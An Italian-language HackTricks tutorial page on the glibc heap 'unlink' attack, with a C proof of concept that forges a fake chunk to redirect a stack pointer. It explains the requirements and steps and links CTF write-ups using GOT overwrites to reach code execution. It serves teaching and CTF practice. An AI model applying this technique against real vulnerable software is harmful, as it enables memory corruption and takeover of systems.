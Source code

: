 # Attacco Unlink

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informazioni di Base

Quando questo attacco è stato scoperto, permetteva principalmente un WWW (Write What Where), tuttavia, sono stati aggiunti alcuni **controlli** rendendo la nuova versione dell'attacco più interessante e più complessa e **inutile**.

### Esempio di Codice:

<details>

<summary>Codice</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* L'attacco non funziona se vengono utilizzati i tcaches (dopo la versione 2.26)

### Obiettivo

Questo attacco permette di **cambiare un puntatore a un chunk in modo che punti a 3 indirizzi prima di se stesso**. Se questa nuova posizione (intorno a dove si trovava il puntatore) contiene informazioni interessanti, come altre allocazioni controllabili / stack..., è possibile leggerle/sovrascriverle per causare danni maggiori.

* Se questo puntatore si trovava nello stack, poiché ora punta a 3 indirizzi prima di se stesso e l'utente potenzialmente può leggerlo e modificarlo, sarà possibile estrarre informazioni sensibili dallo stack o addirittura modificare l'indirizzo di ritorno (forse) senza toccare il canary
* Negli esempi di CTF, questo puntatore si trova in un array di puntatori ad altre allocazioni, pertanto, facendolo puntare a 3 indirizzi prima e potendo leggerlo e scriverlo, è possibile fare in modo che gli altri puntatori puntino ad altri indirizzi.\
Poiché potenzialmente l'utente può leggere/scrivere anche le altre allocazioni, può estrarre informazioni o sovrascrivere nuovi indirizzi in posizioni arbitrarie (come nella GOT).

### Requisiti

* Un certo controllo in una memoria (ad esempio, stack) per creare un paio di chunk assegnando valori ad alcuni degli attributi.
* Leak dello stack per impostare i puntatori del chunk falso.

### Attacco

* Ci sono un paio di chunk (chunk1 e chunk2)
* L'attaccante controlla il contenuto di chunk1 e gli header di chunk2.
* In chunk1 l'attaccante crea la struttura di un chunk falso:
* Per aggirare le protezioni, si assicura che il campo `size` sia corretto per evitare l'errore: `corrupted size vs. prev_size while consolidating`
* e i campi `fd` e `bk` del chunk falso puntano dove il puntatore di chunk1 è memorizzato con offset di -3 e -2 rispettivamente in modo che `fake_chunk->fd->bk` e `fake_chunk->bk->fd` puntino alla posizione in memoria (stack) dove si trova l'indirizzo reale di chunk1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Gli header del chunk2 vengono modificati per indicare che il chunk precedente non è utilizzato e che la dimensione è la dimensione del chunk falso contenuto.
* Quando il secondo chunk viene liberato, allora avviene questo scollegamento del chunk falso:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* In precedenza è stato fatto in modo che `fake_chunk->fd->bk` e `fake_chunk->bk->fd` puntassero allo stesso posto (la posizione nello stack dove `chunk1` era memorizzato, quindi era una lista concatenata valida). Poiché **entrambi puntano alla stessa posizione**, solo l'ultimo (`fake_chunk->bk->fd = fake_chunk->fd`) avrà **effetto**.
* Questo sovrascriverà il puntatore a chunk1 nello stack con l'indirizzo (o byte) memorizzato 3 indirizzi prima nello stack.
* Pertanto, se un attaccante potesse controllare nuovamente il contenuto del chunk1, sarà in grado di **scrivere all'interno dello stack**, potendo potenzialmente sovrascrivere l'indirizzo di ritorno saltando il canary e modificare i valori e i puntatori delle variabili locali. Anche modificando nuovamente l'indirizzo di chunk1 memorizzato nello stack in una posizione diversa dove se l'attaccante potesse controllare nuovamente il contenuto di chunk1 sarà in grado di scrivere ovunque.
* Notare che ciò è stato possibile perché gli **indirizzi sono memorizzati nello stack**. Il rischio e lo sfruttamento potrebbero dipendere da **dove sono memorizzati gli indirizzi del chunk falso**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Riferimenti

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Anche se sarebbe strano trovare un attacco di unlink persino in un CTF, ecco alcuni writeup in cui è stato utilizzato questo attacco:
* Esempio di CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* In questo esempio, invece dello stack c'è un array di indirizzi malloc'ati. L'attacco di unlink viene eseguito per poter allocare un chunk qui, quindi poter controllare i puntatori dell'array di indirizzi malloc'ati. Successivamente, c'è un'altra funzionalità che consente di modificare il contenuto dei chunk in questi indirizzi, il che consente di puntare gli indirizzi alla GOT, modificare gli indirizzi delle funzioni per ottenere leak di libc e RCE.
* Altro esempio di CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Proprio come nel precedente esempio, c'è un array di indirizzi di allocazioni. È possibile eseguire un attacco di unlink per far sì che l'indirizzo della prima allocazione punti a poche posizioni prima dell'inizio dell'array e sovrascrivere questa allocazione nella nuova posizione. Pertanto, è possibile sovrascrivere i puntatori di altre allocazioni per puntare alla GOT di atoi, stamparla per ottenere un leak di libc e quindi sovrascrivere la GOT di atoi con l'indirizzo di un one gadget.
* Esempio di CTF con funzioni malloc e free personalizzate che sfruttano una vulnerabilità molto simile all'attacco di unlink: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* C'è un overflow che consente di controllare i puntatori FD e BK del malloc personalizzato che verrà liberato (personalizzato). Inoltre, l'heap ha il bit exec, quindi è possibile estrarre un indirizzo dell'heap e puntare una funzione dalla GOT a un chunk dell'heap con un codice shell per eseguire.

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
